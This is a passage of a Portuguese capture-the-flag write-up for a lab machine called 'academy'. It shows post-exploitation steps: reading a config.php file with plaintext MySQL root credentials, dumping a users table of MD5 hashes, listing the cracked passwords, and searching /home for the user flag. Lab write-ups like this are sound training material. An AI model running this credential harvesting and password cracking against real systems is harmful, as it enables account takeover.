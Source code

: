 Após realizar o upgrade do shell reverso, primeira coisa a se checar foi o arquivo **config.php** enumerado anteriormente, o qual encontra-se listado abaixo:

```bash
www-data@academy:/var/www/html$ cat ./academy/public/config.php 
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$link=mysqli_connect('localhost','root','GkEWXn4h34g8qx9fZ1','academy');
?>
```

Conectando à instancia local do MySQL utilizando das credenciais obtidas, notei que haviam alguns usuários criados na base, assim como o hash de suas senhas, que poderiam ter sido reutilizadas por algum dos usuários existentes nesta máquina.

```bash
$ mysql -u root -p
Password:

mysql> use academy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select * from users;
+----+----------+----------------------------------+--------+---------------------+
| id | username | password                         | roleid | created_at          |
+----+----------+----------------------------------+--------+---------------------+
|  5 | dev      | a317f096a83915a3946fae7b7f035246 |      0 | 2020-08-10 23:36:25 |
| 11 | test8    | 5e40d09fa0529781afd1254a42913847 |      0 | 2020-08-11 00:44:12 |
| 12 | test     | 098f6bcd4621d373cade4e832627b4f6 |      0 | 2020-08-12 21:30:20 |
| 13 | test2    | ad0234829205b9033196ba818f7a872b |      1 | 2020-08-12 21:47:20 |
| 14 | tester   | 098f6bcd4621d373cade4e832627b4f6 |      1 | 2020-08-13 11:51:19 |
+----+----------+----------------------------------+--------+---------------------+
```

Após algumas buscas, descobri que estes hashes foram gerados com MD5 antes de armazenados no banco. Utilizando alguns serviços online, as seguintes senhas foram obtidas:

- dev: **mySup3rP4s5w0rd!!**
- test8: **test8**
- test: **test**
- test2: **test2**
- tester: **test**

Agora que temos algumas senhas, precisamos validar qual usuário possivelmente possui a flag de user.txt. Executando o comando abaixo identificamos o arquivo no diretório do user **cry0l1t3**, para o qual tentaremos as senhas obtidas até o momento:

```bash
www-data@academy:/home$ find /home -type f 2>/dev/null | grep user.txt
/home/cry0l1t3/user.txt
```
